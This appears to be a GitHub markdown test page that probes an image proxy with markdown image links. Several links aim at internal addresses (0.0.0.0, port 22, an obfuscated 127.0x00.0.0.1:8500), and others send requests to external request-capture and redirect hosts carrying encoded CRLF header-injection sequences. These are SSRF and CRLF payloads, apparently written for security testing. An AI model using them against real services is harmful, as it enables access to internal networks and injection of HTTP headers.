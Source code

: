 # test


Commenté

! [0.0.0.0](http://0.0.0.0/ "http://0.0.0.0/")
! [0.0.0.0:22](http://0.0.0.0:22/ "http://0.0.0.0:22/")
! [127.0x00.0.0.1:8500](http://127.0x00.0.0.1:8500/ "http://127.0x00.0.0.1:8500/")

WIP

![wip0](http://nicob.net/redirslack)

! [wip1](http://nicob.net/redirbin)
! [wip2](http://requestb.in/1mnpim41?direct_mode)
! [wip3](http://requestb.in/1mnpim41?crlf1%0D%0A222=x&y=crlf3%0D%0A444)
! [wip4](http://req%0D%0Auestb.sqli.nicob.net/1mnpim41?crlf1%0D%0A222=x&y=crlf3%0D%0A444)
! [wip5](http://requestb.in/1mnpim41?x=crlf6
777)
! [wip6](http://requestb.in/1mnpim41?z=crlf8\r\n999)
! [wip7](http://requestb.in/1mnpim41?y=crlf0\\r\\n000)
